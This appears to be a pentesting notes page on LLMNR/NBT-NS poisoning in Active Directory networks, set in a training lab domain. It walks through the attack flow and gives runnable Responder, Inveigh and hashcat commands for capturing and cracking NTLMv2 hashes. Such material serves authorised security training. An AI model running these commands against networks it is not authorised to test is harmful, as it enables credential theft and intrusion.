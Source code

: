 ```yaml
---
title: "Sniffing a Foothold"
Description: 
draft: false
images: []
menu:
  docs:
    parent: "Active Directory"
weight: 2
toc: true
---
```


### <span style="color:#208355"> Quick Example - LLMNR/NBT-NS Poisoning

Let's walk through a quick example of the attack flow at a very high level:

```bash
1. A host attempts to connect to the print server at \\print01.inlanefreight.local, but accidentally types in \\printer01.inlanefreight.local.
2. The DNS server responds, stating that this host is unknown.
3. The host then broadcasts out to the entire local network asking if anyone knows the location of \\printer01.inlanefreight.local.
4. The attacker (us with Responder running) responds to the host stating that it is the \\printer01.inlanefreight.local that the host is looking for.
5. The host believes this reply and sends an authentication request to the attacker with a username and NTLMv2 password hash.
6. This hash can then be cracked offline or used in an SMB Relay attack if the right conditions exist.
```
### <span style="color:#208355"> LLMNR/NBT-NS Poisoning - from Linux

<span style="color:#208355"><a href="https://github.com/lgandx/Responder" target="_blank">Responder</a></span> will listen and answer any requests it sees on the wire. If you are successful and manage to capture a hash, Responder will print it out on screen and write it to a log file per host located in the /usr/share/responder/logs directory.

```
sudo responder -I ens224 
```
### <span style="color:#208355"> LLMNR/NBT-NS Poisoning - from Windows

The tool <span style="color:#208355"><a href="https://github.com/Kevin-Robertson/Inveigh" target="_blank">Inveigh</a></span> works similar to Responder, but is written in PowerShell and C#. Inveigh can listen to IPv4 and IPv6 and several other protocols, including LLMNR, DNS, mDNS, NBNS, DHCPv6, ICMPv6, HTTP, HTTPS, SMB, LDAP, WebDAV, and Proxy Auth.

Powershell:
```
PS C:\kryot> Import-Module .\Inveigh.ps1
PS C:\kryot> (Get-Command Invoke-Inveigh).Parameters
PS C:\kryot> Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y
```
C# Inveigh:
```
PS C:\kryot> .\Inveigh.exe

GET NTLMV2UNIQUE
GET NTLMV2USERNAMES
HELP
```

### <span style="color:#208355"> Cracking an NTLMv2
```
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt 
```